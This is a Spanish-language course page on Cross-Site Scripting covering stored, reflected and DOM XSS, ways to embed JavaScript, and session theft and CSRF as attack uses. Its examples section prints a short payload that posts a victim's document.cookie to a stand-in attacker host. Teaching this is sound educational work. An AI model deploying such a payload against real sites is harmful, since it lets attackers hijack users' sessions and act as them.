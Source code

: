 ```yaml
---
title : "Cross-Site Scripting"
lead: ""
date: 2020-10-06T08:48:45+00:00
draft: false
images: []
menu:
  docs:
    parent: "apps-web"
weight: 303
---
```


El Cross-Site Scripting, o XSS (incluido en el punto 3 del OWASP Top 10), se refiere a una clase de vulnerabilidades que
intentan introducir código JavaScript en un sitio web, el cual será ejecutado en el navegador de otros usuarios.
Dependiendo de la aplicación en específico, las repercusiones de esto varían desde meras molestias hasta
la completa ruptura de confidencialidad e integridad del sistema.

Existen 3 tipos:
* **Almacenado**: El payload queda almacenado en algún lado y no es necesario estar activamente atacando a la víctima.
  Una vez que ella acceda a este, se ejecutará el código malicioso.

* **Reflejado**: El payload no se almacena permanentemente, sino que viene codificado en alguna variable
  (como un parámetro GET).

* **DOM**: Este tipo de XSS no puede ser ejecutado por medio de variables ni datos almacenados, sino que se debe
realizar una serie de acciones específicas en el mismo navegador de la víctima.

## JavaScript

JavaScript (JS) es un lenguaje de programación orientado a objetos que usualmente se utiliza para añadir
componentes dinámicas a un sitio web. [Aquí](https://www.w3schools.com/js/DEFAULT.asp)
pueden encontrar un tutorial de JS si lo necesitan.
El código JS en una página se ejecuta en el navegador del usuario, no en el servidor.
Existen varias formas _"oficiales"_ de insertar JS en un sitio. El primero es tener el código directamente en
el HTML, delimitado por tags `<script></script>`, por ejemplo:

    <html>
        <head>
            <script>
                ...code...
            </script>
        </head>
    </html>

La otra forma es hacer una referencia a un archivo que contenga el código, como por ejemplo:

    <html>
        <head>
            <script src="/code.js"></script>
        </head>
    </html>

Finalmente, se puede introducir JS bajo ciertos eventos, como `onclick`, `onerror`, `onmouseover`, etc.

    <html>
        <body>
            <button onclick="...code..."></button>
        </body>
    </html>

Existen otras formas de introducir código JS a un sitio web, pero se utilizan más que nada en ataques donde las
formas comunes están siendo bloqueadas o filtradas. Estas se escapan del ámbito de este curso, pero si están
interesados, pueden revisar la
[guía de evasión de filtros XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) de OWASP.

## Ejemplos

Uno de los usos más peligrosos de este tipo de ataques es el robo de sesiones. El código introducido toma la
cookie de sesión de la víctima y se la envía al atacante. Luego él puede simplemente copiar esta cookie en
su navegador, con lo cual obtiene acceso autenticado como la víctima. El código a continuación logra hacer esto:

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "https://hacker.com/", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("cookie=" + document.cookie);

Otro uso es el Cross-Site Request Forgery (CSRF). Estos ataques intentan impersonar a la víctima, enviando
consultas en su nombre. Esto funciona ya que las consultas hechas a través de JavaScript también llevan las cookies
y parámetros de sesión del usuario, por lo que el atacante tiene el potencial de ganar los mismos permisos que
la víctima. Esto se podría utilizar, por ejemplo, para realizar acciones en nombre del administrador, con lo cual
crear otro usuario con permisos de administrador.

